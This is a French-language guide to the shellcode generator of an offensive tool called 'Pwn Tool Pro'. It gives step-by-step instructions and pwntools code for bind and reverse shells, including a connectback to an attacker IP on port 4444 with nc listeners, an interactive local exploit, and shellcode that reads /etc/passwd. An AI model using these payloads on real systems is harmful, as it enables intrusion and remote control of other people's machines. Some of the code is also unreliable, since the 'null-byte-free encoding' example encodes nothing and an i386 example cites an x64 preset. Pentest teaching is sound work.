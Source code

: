 # Guide d'utilisation de la fonctionnalité Shellcode

Ce guide explique comment utiliser efficacement la fonctionnalité avancée "Shellcode" du Pwn Tool Pro pour générer des exploits adaptés à différents scénarios de sécurité.

## Table des matières

1. [Introduction aux shellcodes](#introduction-aux-shellcodes)
2. [Options disponibles](#options-disponibles)
3. [Types de shellcode et cas d'utilisation](#types-de-shellcode-et-cas-dutilisation)
4. [Exemples pratiques](#exemples-pratiques)
5. [Personnalisation avancée](#personnalisation-avancée)

## Introduction aux shellcodes

Un **shellcode** est un petit morceau de code conçu pour être injecté dans un programme vulnérable, généralement pour exécuter des commandes arbitraires. Dans l'outil Pwn Tool Pro, vous pouvez générer différents types de shellcodes adaptés à vos besoins de test d'intrusion.

## Options disponibles

### Architecture

L'architecture définit le type de processeur ciblé par votre exploit:

- **amd64**: Processeurs 64 bits x86_64 (la plupart des ordinateurs modernes)
- **i386**: Processeurs 32 bits x86 (systèmes plus anciens)
- **arm**: Processeurs ARM 32 bits (certains appareils mobiles, IoT)
- **aarch64**: Processeurs ARM 64 bits (appareils mobiles modernes, Raspberry Pi récents)

Choisissez l'architecture qui correspond au système cible que vous testez.

### Types de Shellcode

- **shell_bind_tcp**: Ouvre un port d'écoute sur la cible et vous permet de vous y connecter
- **shell_reverse_tcp**: La cible se connecte à votre machine, vous donnant accès à un shell
- **execve**: Exécute une commande spécifique sur la cible (par défaut `/bin/sh`)

### Port personnalisé

Port réseau à utiliser pour les connexions (bind ou reverse). La valeur par défaut est 4444.

### Payloads prédéfinis

Une liste de modèles préconfigurés pour différents scénarios d'exploit.

## Types de shellcode et cas d'utilisation

### 1. Shell Bind TCP

**Cas d'utilisation**: Quand vous avez un accès direct au réseau de la cible et que vous pouvez vous connecter à n'importe quel port ouvert.

**Comment ça fonctionne**:
1. Le shellcode ouvre un port d'écoute sur la machine cible
2. Vous vous connectez à ce port depuis votre machine d'attaque
3. Vous obtenez un shell sur la machine cible

**Pour utiliser**:
1. Sélectionnez l'architecture de la cible (ex: amd64)
2. Choisissez `shell_bind_tcp`
3. Définissez un port accessible (ex: 4444)
4. Cliquez sur "⚡ Générer Exploit"
5. Une fois l'exploit exécuté sur la cible, connectez-vous avec: `nc <TARGET_IP> 4444`

### 2. Shell Reverse TCP

**Cas d'utilisation**: Quand la cible est derrière un NAT/firewall qui bloque les connexions entrantes.

**Comment ça fonctionne**:
1. Vous ouvrez un port d'écoute sur votre machine d'attaque
2. Le shellcode se connecte depuis la machine cible vers votre machine
3. Vous obtenez un shell sur la machine cible

**Pour utiliser**:
1. Ouvrez un port d'écoute sur votre machine: `nc -lvnp 4444`
2. Sélectionnez l'architecture de la cible (ex: amd64)
3. Choisissez `shell_reverse_tcp`
4. Définissez le port que vous avez ouvert (ex: 4444)
5. Assurez-vous que la cible est configurée pour se connecter à votre adresse IP
6. Cliquez sur "⚡ Générer Exploit"

### 3. Execve

**Cas d'utilisation**: Quand vous voulez exécuter une commande spécifique sans établir de connexion réseau.

**Comment ça fonctionne**:
1. Le shellcode exécute une commande système (par défaut `/bin/sh`)
2. Si vous avez déjà un accès interactif, cela peut vous donner un shell plus privilégié

**Pour utiliser**:
1. Sélectionnez l'architecture de la cible (ex: amd64) 
2. Choisissez `execve`
3. Cliquez sur "⚡ Générer Exploit"

## Exemples pratiques

### Exemple 1: Exploit pour une machine Linux distante

**Scénario**: Vous avez identifié une vulnérabilité de buffer overflow dans un service réseau sur un serveur Linux 64 bits.

**Configuration**:
- Architecture: amd64
- Type de Shellcode: shell_reverse_tcp
- Port personnalisé: 4444
- Payload prédéfini: "Linux x64 - Reverse Shell"

1. Modifiez le payload pour inclure votre IP:
```python
# 1. Lancez un listener sur votre machine
# nc -lvnp 4444
# 2. Remplacez ATTACKER_IP par votre IP (ex: 192.168.1.100)
shellcode = asm(shellcraft.amd64.linux.connectback('192.168.1.100', 4444))
```

2. Générez l'exploit et envoyez-le à la cible
3. Sur votre machine: `nc -lvnp 4444`
4. Une fois l'exploit exécuté sur la cible, vous recevrez une connexion shell

### Exemple 2: Test local d'une application vulnérable

**Scénario**: Vous testez une application locale 32 bits sous Linux avec une vulnérabilité connue.

**Configuration**:
- Architecture: i386
- Type de Shellcode: execve
- Payload prédéfini: "Linux x64 - Execute /bin/sh"

1. Modifiez le payload selon l'architecture:
```python
# Générez le shellcode pour i386
shellcode = asm(shellcraft.i386.linux.sh())
# Pour exécuter:
p = process('./application_vulnerable')
p.sendline(shellcode)
p.interactive()
```

2. Générez l'exploit et utilisez-le pour tester l'application

## Personnalisation avancée

Pour les utilisateurs avancés, le champ "Payload personnalisé" permet d'écrire du code Python personnalisé qui sera exécuté pour générer un shellcode sur mesure.

**Exemple: Shellcode encodé pour éviter les caractères nuls**:

```python
# Génération d'un shellcode sans caractères nuls
shellcode = asm(shellcraft.amd64.linux.sh())
encoded = ""
for b in shellcode:
    encoded += "\\x%02x" % b
print(f"Shellcode encodé: {encoded}")
```

**Exemple: Shellcode avec chaîne de commande personnalisée**:

```python
# Exécute une commande personnalisée
shellcode = asm(shellcraft.amd64.linux.system("cat /etc/passwd"))
```

## Conseils de sécurité

- Testez toujours vos exploits dans un environnement contrôlé et isolé
- Obtenez les autorisations appropriées avant de tester sur des systèmes en production
- N'utilisez ces outils que pour des tests de sécurité légitimes ou à des fins éducatives